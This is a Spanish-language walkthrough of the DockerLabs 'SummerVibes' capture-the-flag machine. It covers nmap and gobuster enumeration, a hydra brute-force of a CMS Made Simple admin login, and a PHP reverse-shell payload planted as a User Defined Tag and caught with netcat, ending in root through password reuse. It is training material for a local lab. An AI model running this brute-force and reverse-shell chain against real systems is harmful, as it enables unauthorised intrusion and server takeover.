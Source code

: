 ```yaml
---
icon: flag
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# SummerVibes DockerLabs (Hard)

## Instalación

Cuando obtenemos el `.zip` nos lo pasamos al entorno en el que vamos a empezar a hackear la maquina y haremos lo siguiente.

```shell
unzip summervibes.zip
```

Nos lo descomprimira y despues montamos la maquina de la siguiente forma.

```shell
bash auto_deploy.sh summervibes.tar
```

Info:

```
                            ##        .         
                      ## ## ##       ==         
                   ## ## ## ##      ===         
               /""""""""""""""""\___/ ===       
          ~~~ {~~ ~~~~ ~~~ ~~~~ ~~ ~ /  ===- ~~~
               \______ o          __/           
                 \    \        __/            
                  \____\______/               
                                          
  ___  ____ ____ _  _ ____ ____ _    ____ ___  ____ 
  |  \ |  | |    |_/  |___ |__/ |    |__| |__] [__  
  |__/ |__| |___ | \_ |___ |  \ |___ |  | |__] ___] 
                                         
                                     

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```

Por lo que cuando terminemos de hackearla, le damos a `Ctrl+C` y nos eliminara la maquina para que no se queden archivos basura.

## Escaneo de puertos

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn <IP>
```

```shell
nmap -sCV -p<PORTS> <IP>
```

Info:

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-13 11:56 EST
Nmap scan report for express.dl (172.17.0.2)
Host is up (0.000026s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 d1:19:f1:fa:48:16:af:8a:4a:89:2d:78:89:e9:2d:94 (ECDSA)
|_  256 b8:b7:2e:64:3e:ee:c3:2e:2e:be:99:07:4e:02:4f:16 (ED25519)
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.14 seconds
```

Si inspeccionamos la pagina vemos el siguiente comentario.

```html
<!-- cms made simple is installed here - Access to it - cmsms -->
```

Puede ser que sea el nombre de un directorio, por lo que haremos lo siguiente:

```
URL = http://<IP>/cmsms/
```

Y veremos una pagina web normal, por lo que `fuzzearemos` un poco.

```shell
gobuster dir -u http://<IP>/cmsms/ -w <WORDLIST> -x html,php,txt -t 100 -k -r
```

Info:

```
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2/cmsms/
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/wordlists/dirb/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,txt,html
[+] Follow Redirect:         true
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.htaccess.html       (Status: 403) [Size: 275]
/.htpasswd.php        (Status: 403) [Size: 275]
/.htpasswd.html       (Status: 403) [Size: 275]
/.htaccess            (Status: 403) [Size: 275]
/.htpasswd.txt        (Status: 403) [Size: 275]
/.htpasswd            (Status: 403) [Size: 275]
/.htaccess.txt        (Status: 403) [Size: 275]
/.htaccess.php        (Status: 403) [Size: 275]
/admin                (Status: 200) [Size: 4568]
/assets               (Status: 200) [Size: 2145]
/config.php           (Status: 200) [Size: 0]
/doc                  (Status: 200) [Size: 24]
/index.php            (Status: 200) [Size: 19671]
/lib                  (Status: 200) [Size: 24]
/modules              (Status: 200) [Size: 3397]
/tmp                  (Status: 200) [Size: 1147]
/uploads              (Status: 200) [Size: 1543]
Progress: 81876 / 81880 (100.00%)
===============================================================
Finished
===============================================================
```

Vemos uno bastante llamativo llamado `admin`, que si entramos en el veremos un login de admin, por lo que le vamos a dar a `Forgot your password?` y pondremos `admin` para saber si el usuario existe, si lo hacemos vemos que existe, por lo que intentaremos fuerza bruta con `hydra` al login:

## Escalate user www-data

### Hydra

```shell
hydra -l admin -P <WORDLIST> <IP> http-post-form "/cmsms/admin/login.php:username=^USER^&password=^PASS^&loginsubmit=Submit:User name or password incorrect"
```

Info:

```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-01-13 12:07:19
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-post-form://172.17.0.2:80/cmsms/admin/login.php:username=^USER^&password=^PASS^&loginsubmit=Submit:User name or password incorrect
[80][http-post-form] host: 172.17.0.2   login: admin   password: chocolate
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-01-13 12:07:21
```

Vemos que hemos encontrado las credenciales, por lo que nos conectaremos a la web con dichas credenciales y entraremos en el panel de `admin` si nos vamos a `extensions` -> `User Definded Tags` -> `Add User Defined Tag`

Veremos un cuadro en el que podremos meter codigo, por lo que meteremos lo siguiente:

```php
<?php
$sock=fsockopen("<IP>",<PORT>);$proc=proc_open("sh", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);
?>
```

Le ponemos como nombre `shell`.

<figure><img src="../../.gitbook/assets/image (161) (1).png" alt=""><figcaption></figcaption></figure>

Le daremos a `Sumbit`, volvemos a entrar a `shell`, le daremos al boton `Apply` y antes de darle a `run` nos pondremos a la escucha.

```shell
nc -lvnp <PORT>
```

Una vez estando asi, le daremos a `run` en la pagina y cuando volvamos a la escucha veremos lo siguiente:

```
listening on [any] 7777 ...
connect to [192.168.120.128] from (UNKNOWN) [172.17.0.2] 42832
whoami
www-data
```

### Sanitizacion shell (TTY)

```shell
script /dev/null -c bash
```

```shell
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=/bin/bash

# Para ver las dimensiones de nuestra consola en el Host
stty size

# Para redimensionar la consola ajustando los parametros adecuados
stty rows <ROWS> columns <COLUMNS>
```

## Escalate Privileges

Si reutilizamos la contraseña que encontramos en el panel de la pagina que era `chocolate` con `root`.

```shell
su root
```

Metemos como contraseña `chocolate` y veremos que somo el usuario `root`.
